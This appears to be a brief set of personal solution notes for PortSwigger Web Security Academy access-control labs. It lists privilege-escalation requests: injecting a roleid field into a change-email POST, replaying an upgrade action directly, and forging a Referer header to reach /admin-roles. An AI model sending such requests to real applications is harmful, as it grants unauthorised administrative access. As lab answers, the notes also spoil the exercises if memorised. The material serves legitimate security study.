

____

# User role can be modified in user profile

```
POST /my-account/change-email

{"email":"test@test.com",
"roleid":2
}
```

# URL-based access control can be circumvented



# Method-based access control can be circumvented

```
username=wiener&action=upgrade
```

# Multi-step process with no access control on one step

```
action=upgrade&confirmed=true&username=wiener
```

# Referer-based access control

```
GET /admin-roles?username=wiener&action=upgrade
Referer: https://0a3400e304aaf37c805efd3c00a200de.web-security-academy.net/admin
```
